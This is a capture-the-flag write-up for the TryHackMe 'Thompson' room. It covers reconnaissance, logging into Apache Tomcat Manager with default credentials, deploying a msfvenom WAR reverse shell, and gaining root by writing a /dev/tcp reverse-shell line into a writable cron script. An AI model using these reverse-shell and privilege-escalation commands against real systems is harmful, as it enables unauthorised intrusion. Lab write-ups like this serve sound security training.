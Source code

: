 TryHackMe: Thompson – Write-Up
Room: Thompson
Link: https://tryhackme.com/room/bsidesgtthompson
Difficulty: Easy
Tags: Tomcat, WAR exploitation, Reverse shell, Privilege escalation, Cronjob vulnerability

Table of Contents
Introduction

Reconnaissance

Discovery – Tomcat Manager and Credentials

Exploiting WAR File Upload

Gaining User Shell

Privilege Escalation via Cronjob Injection

Capturing Flags

Screenshots

Tools Used

References

1. Introduction
This room involves exploiting an Apache Tomcat instance to gain an initial foothold, followed by privilege escalation via a misconfigured cron job. This write-up details the step-by-step approach, commands used, and supporting screenshots.

2. Reconnaissance
Step 1: Nmap Scan
bash
Copy
Edit
nmap -A <TARGET_IP>
Results showed:

Open HTTP port running Apache Tomcat

Service details revealed Tomcat default endpoints

Step 2: Dirbuster Scan
Ran Dirbuster against the HTTP endpoint.

Found:

/docs

/examples

/manager (Tomcat Manager login page)

3. Discovery – Tomcat Manager and Credentials
Navigating to /manager revealed a login panel.

Tried admin:admin → failed

Found valid credentials:

makefile
Copy
Edit
Username: tomcat
Password: s3cret
Logged in successfully to the Web Application Manager.

4. Exploiting WAR File Upload
Tomcat Manager allows deployment of .war files.

Generate a malicious WAR reverse shell:

bash
Copy
Edit
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4545 -f war > reverse.war

Set up a netcat listener:

bash
Copy
Edit
nc -lvnp 4545
Upload reverse.war via the Tomcat UI:

5. Gaining User Shell
Triggering the payload at:

perl
Copy
Edit
http://<TARGET_IP>:8080/reverse/
gave a reverse shell as tomcat.

Spawn a TTY shell:

bash
Copy
Edit
python -c 'import pty; pty.spawn("/bin/sh")'

Captured the user.txt flag.

6. Privilege Escalation via Cronjob Injection
Checking /etc/crontab revealed a writable script executed by root:

bash
Copy
Edit
ls -l /root/id.sh
Writable by our user → we inject a reverse shell:

bash
Copy
Edit
echo 'bash -i >& /dev/tcp/<YOUR_IP>/7676 0>&1' > /root/id.sh
Set up listener:

bash
Copy
Edit
nc -lvnp 7676
When the cronjob ran, we got a root shell.

7. Capturing Flags
User Flag:

bash
Copy
Edit
cat /home/<user>/user.txt
Root Flag:

bash
Copy
Edit
cat /root/root.txt

8. Screenshots
All screenshots are stored in /screenshots/ and linked throughout this document.

9. Tools Used
nmap – Port and service scanning

Dirbuster – Directory brute-forcing

msfvenom – Generate WAR reverse shell

netcat – Listening for shells

python – Spawn TTY shells

Apache Tomcat Manager – WAR deployment

10. References
TryHackMe: Thompson

GTFOBins

Apache Tomcat WAR Exploitation
